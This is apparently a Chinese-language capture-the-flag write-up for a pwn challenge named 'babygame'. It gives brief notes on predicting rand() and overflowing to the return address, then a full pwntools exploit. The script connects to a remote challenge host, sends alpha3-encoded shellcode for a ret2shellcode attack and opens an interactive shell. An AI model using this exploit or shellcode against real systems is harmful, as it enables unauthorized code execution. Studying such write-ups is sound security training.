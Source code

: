 ### babygame
预测随机数可以搞一堆钱，然后可以把字符长度拉满  
使用道具刚好够探到返回地址，可以完整覆盖  
提前多次布局好栈上变量（悬垂）然后一次覆盖完成ret2sc  
sc在格式化字符串的地方，因为格式化字符串在bss上所以不太有用，就只存sc了 
sc用alpha3编码   
```python
from pwn import *
from ctypes import CDLL

# p = process("./pwn")
p = remote("47.94.224.3", 16637)
context.log_level = 'debug'
p.sendlineafter(b">> ", b"1")
p.sendlineafter(b"level : ", b"4")
for _ in range(50):
    libc = CDLL('/lib/x86_64-linux-gnu/libm.so.6')
    libc.srand(libc.time())
    r = ""
    for i in range(4):
        r += "abcdefghijklmnopqrstuvwxyzA"[libc.rand() % 26]
    p.sendlineafter(b"Give me : ", r.encode())
    if b'MD5' not in p.recvline():
        p.sendlineafter(b">> ", b"1")
        p.sendlineafter(b"level : ", b"4")

p.sendlineafter(b"Give me : ", b'f**k you')
p.sendlineafter(b">> ", b"2")
p.sendlineafter(b">> ", b"2")
p.sendlineafter(b"need :", b"512")


def fmt_str(fmt):
    p.sendlineafter(b">> ", b"2")
    p.sendlineafter(b">> ", b"1")
    p.sendlineafter(b"you want to purchase", fmt)

    p.sendlineafter(b">> ", b"2")
    p.sendlineafter(b">> ", b"4")
    return p.recvuntil(b"Backpack size ")[1:-len(b"Backpack size ")]


sh = b"Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t" \
     b"0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"

p.sendlineafter(b">> ", b"2")
p.sendlineafter(b">> ", b"1")
payload = b'B???' + b'D0?1' + b'D0?3' + b'D0?4' + b'D0?5' + b'D0?6' + b'D0?7' \
          + b'A0?2' + b'D0?2' + b'A0?g' + b'D0?0' + b'Co?0'
p.sendlineafter(b"you want to purchase", payload + sh)

p.sendlineafter(b">> ", b"2")
p.sendlineafter(b">> ", b"3")
p.interactive()
p.close()
```
